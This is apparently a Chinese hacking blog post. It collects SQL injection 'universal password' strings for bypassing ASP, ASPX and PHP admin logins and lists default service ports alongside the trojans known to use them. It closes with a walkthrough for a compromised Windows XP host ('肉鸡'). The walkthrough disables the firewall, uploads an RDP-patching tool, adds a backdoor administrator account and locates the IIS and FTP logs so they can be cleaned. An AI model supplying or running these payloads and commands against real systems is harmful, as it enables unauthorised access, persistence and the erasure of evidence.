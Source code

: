 ```yaml
---
title: 后台常用万能密码
top: false
cover: false
toc: true
mathjax: true
date: 2018-11-23 20:42:13
password:
summary:
tags: [SQL,万能密码]
categories: SQL
---
```


 # 绕过登陆常用万能密码
 所谓万能密码就是绕过登录验证直接进入管理员后台的密码，这种类型的密码可以通用到很多存在此漏洞的网站所以称之为万能。
 
**分享给大家、、 希望对大家有所帮助！**

### asp aspx万能密码
    1："or "a"="a
    
    2：'.).or.('.a.'='.a
    
    3：or 1=1--
    
    4：'or 1=1--
    
    5：a'or' 1=1--
    
    6："or 1=1--
    
    7：'or.'a.'='a
    
    8："or"="a'='a
    
    9：'or''='
    
    10：'or'='or'

admin'or 1=1#

### PHP万能密码
admin'/*
密码*/'
'or 1=1/*
    
    "or "a"="a
    
    "or 1=1--
    
    "or"="
    
    "or"="a'='a
    
    "or1=1--
    
    "or=or"
    
    ''or'='or'
    
    ') or ('a'='a
    
    '.).or.('.a.'='.a
    
    'or 1=1
    
    'or 1=1--
    
    'or 1=1/*
    
    'or"="a'='a
    
    'or' '1'='1'
    
    'or''='
    
    'or''=''or''='
    
    'or'='1'
    
    'or'='or'
    
    'or.'a.'='a
    
    'or1=1--
    
    1'or'1'='1
    
    a'or' 1=1--
    
    a'or'1=1--
    
    or 'a'='a'
    
    or 1=1--
    
    or1=1--


通过该工具可以扫描常用的端口和指定的端口是否开放。

### 常用端口号：
代理服务器常用以下端口：

- HTTP协议代理服务器常用端口号：80/8080/3128/8081/9080
- SOCKS代理协议服务器常用端口号：1080
- FTP（文件传输）协议代理服务器常用端口号：21
- Telnet（远程登录）协议代理服务器常用端口：23
<hr>
    HTTP服务器，默认的端口号为80/tcp（木马Executor开放此端口）；
    
    HTTPS（securely transferring web pages）服务器，默认的端口号为443/tcp 443/udp；
    
    Telnet（不安全的文本传送），默认端口号为23/tcp（木马Tiny Telnet Server所开放的端口）；
    
    FTP，默认的端口号为21/tcp（木马Doly Trojan、Fore、Invisible FTP、WebEx、WinCrash和Blade Runner所开放的端口）；
    
    TFTP（Trivial File Transfer Protocol ），默认的端口号为69/udp；
    
    SSH（安全登录）、SCP（文件传输）、端口重定向，默认的端口号为22/tcp；
    
    SMTP Simple Mail Transfer Protocol (E-mail)，默认的端口号为25/tcp（木马Antigen、Email Password Sender、Haebu Coceda、Shtrilitz 
    
    Stealth、WinPC、WinSpy都开放这个端口）；
    
    POP3 Post Office Protocol (E-mail) ，默认的端口号为110/tcp；
    
    WebLogic，默认的端口号为7001；
    
    Webshpere应用程序，默认的端口号为9080；
    webshpere管理工具，默认的端口号为9090；
    JBOSS，默认的端口号为8080；

    TOMCAT，默认的端口号为8080；
    
    WIN2003远程登陆，默认的端口号为3389；
    
    Symantec AV/Filter for MSE ,默认端口号为 8081；
    
    Oracle 数据库，默认的端口号为1521；
    
    ORACLE EMCTL，默认的端口号为1158；
    
    Oracle XDB（ XML 数据库），默认的端口号为8080；
    Oracle XDB 
    
    FTP服务，默认的端口号为2100；
    
    MS SQL*SERVER数据库server，默认的端口号为1433/tcp 1433/udp；
    MS SQL*SERVER数据库monitor，默认的端口号为1434/tcp 1434/udp；
    QQ，默认的端口号为1080/udp
    
XP下双开3389的教程

用到的工具有


xp3389.exe  termsrvhack.dll  3389.bat 这么几个文件


首先关他的防火墙

就在这里面输入   net stop sharedaccess  再回车就OK了


现在我们先把xp3389.exe  termsrvhack.dll这2个文件传个肉鸡  3389.bat这个要修该后再传的


再运行它。看操作
OK! the Tsenabled成功
再输入Tasklist/SVC >>c:\3389.txt


再肉鸡里面找到3389.txt文件本地打开DcomLaunch, TermService  把这些英文前面的数字记下来

然后返回本地找到  3389.bat

右键编辑  把原来的覆盖掉  保持OK  再传给肉鸡  并运行他

已经OK了。好我们看下能不能连接
 
1：net stop sharedaccess(关掉防火墙命令)
              2：Tasklist/SVC >>c:\3389.txt
              3：net user 1 1 /add 意思是建立一下用户名为1密码也为1的用户
              4：net localgroup administrators 1 /add 把１这个用户提升为管理员权限



日志位于/windows/system32/logfiles/w3svc1目录下!
    主要原因：
    
     C:\WINDOWS\system32\LogFiles文件夹下为系统日志统计文件,文件系统并不自动删除。
    处理方法：对日志文件进行合理的清理。    
    清理方法如下：
    找到c:/winnt/system32/logfiles/w3svc1目录下的文件，队保留最近的几个日志外，清理干净就可以了！！
    FTP日志默认位置：%systemroot%\system32\logfiles\msftpsvc1\，默认每天一个。
    WWW日志默认位置：%systemroot%\system32\logfiles\w3svc1\，默认每天一个日志。

强制登陆3389
mstsc /admin /v:IP:端口